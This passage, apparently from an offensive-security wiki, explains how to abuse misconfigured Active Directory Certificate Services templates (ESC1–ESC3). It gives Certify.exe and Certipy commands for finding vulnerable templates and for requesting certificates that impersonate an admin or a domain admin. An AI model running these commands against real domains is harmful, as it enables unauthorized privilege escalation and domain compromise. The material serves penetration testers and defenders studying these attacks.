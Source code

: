 ```powershell
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find /vulnerable

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /vulnerable /currentuser
```

Once a vulnerable template is found, a request shall be made to obtain a certificate, with another high-priv user set as SAN (`subjectAltName`).

```powershell
Certify.exe request /ca:'domain\ca' /template:"Vulnerable template" /altname:"admin"
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.

:::


### (ESC2) Any purpose EKU 

When a certificate template specifies the Any Purpose EKU, or no EKU at all, the certificate can be used for anything. ESC2 can't be abused like ESC1 if the requester can't specify a SAN, however, it can be abused like ESC3 to use the certificate as requirement to request another one on behalf of any user.

### (ESC3) Certificate Agent EKU 

When a certificate template specifies the Certificate Request Agent EKU, it is possible to use the issued certificate from this template to request another certificate on behalf of any user.

::: tabs

=== UNIX-like

From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate for, and conduct, the ESC3 scenario. It is possible to output the result in an archive that can be uploaded in Bloodhound.

```bash
certipy find -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -vulnerable
```

Once a vulnerable template is found ([how to enumerate](./#attack-paths)), a request shall be made to obtain a certificate specifying the Certificate Request Agent EKU.

```bash
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template'
```

Then, the issued certificate can be used to request another certificate permitting `Client Authentication` on behalf of another user.

```bash
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'User' -on-behalf-of 'domain\domain admin' -pfx 'user.pfx'
```
